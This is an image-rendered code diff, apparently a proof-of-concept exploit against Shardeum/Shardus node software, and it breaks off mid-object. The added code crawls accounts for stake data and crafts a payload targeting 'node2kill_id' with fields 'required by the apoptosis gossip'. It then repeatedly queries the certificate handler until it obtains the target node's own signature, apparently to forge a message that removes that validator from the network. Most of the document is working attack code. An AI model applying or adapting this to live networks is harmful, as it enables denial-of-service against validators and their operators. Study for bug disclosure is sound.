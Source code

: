```diff
+      const { externalIp, externalPort } = shardus.getNode(me)
+
+      const accres: any = await axios.get(`http://${externalIp}:${externalPort}/accounts`)
+
+      let nominator = "";
+      let nominee = "";
+      let stake = "";
+
+      // res.write(`crawling stake infos`)
+
+      for (const acc of accres.data.accounts) {
+        const data = Utils.safeJsonParse(acc.data)
+        if(data.nominator){
+          nominator = data.nominator
+          nominee = data.id
+          stake = data.stakeLock
+          break;
+        }
+      }
+
+      const craftedPayload = {
+         nominator,
+         nominee,
+         stake,
+         id: node2kill_id, // <-- this is the field required by the apoptosis gossip
+         when: 1, // <-- this is the field required by the apoptosis gossip
+         certExp: Date.now() + 1000 * 60 * 60 * 24 * 365,
+      }
+      let targetSig;
+      const _gg = { body: craftedPayload }
+      while(!targetSig){
+        const queryCertRes = await queryCertificateHandler(_gg as any, shardus) as CertSignaturesResult
+
+
+        if (ShardeumFlags.VerboseLogs) console.log('queryCertRes', queryCertRes)
+        if (queryCertRes.success) {
+          const successRes = queryCertRes as CertSignaturesResult
+          stakeCert = successRes.signedStakeCert
+          /* prettier-ignore */ nestedCountersInstance.countEvent('shardeum-staking', `queryCertificateHandler success`)
+        } else {
+          /* prettier-ignore */ nestedCountersInstance.countEvent('shardeum-staking', `queryCertificateHandler failed with reason: ${(queryCertRes as ValidatorError).reason}`)
+        }
+
+
+        const node2kill_pubkey = shardus.getNode(node2kill_id).publicKey
+        for (const sign of queryCertRes.signedStakeCert.signs) {
+          if(sign.owner == node2kill_pubkey){
+            targetSig = sign
+            break
+          }
+        }
+      }
+
+      const apopPayload = {
+        nominee: craftedPayload.nominee,
+        nominator: craftedPayload.nominator,
+        stake: craftedPayload.stake,
+        id: craftedPayload.id,
+        when: craftedPayload.when,
+        certExp: craftedPayload.certExp,
```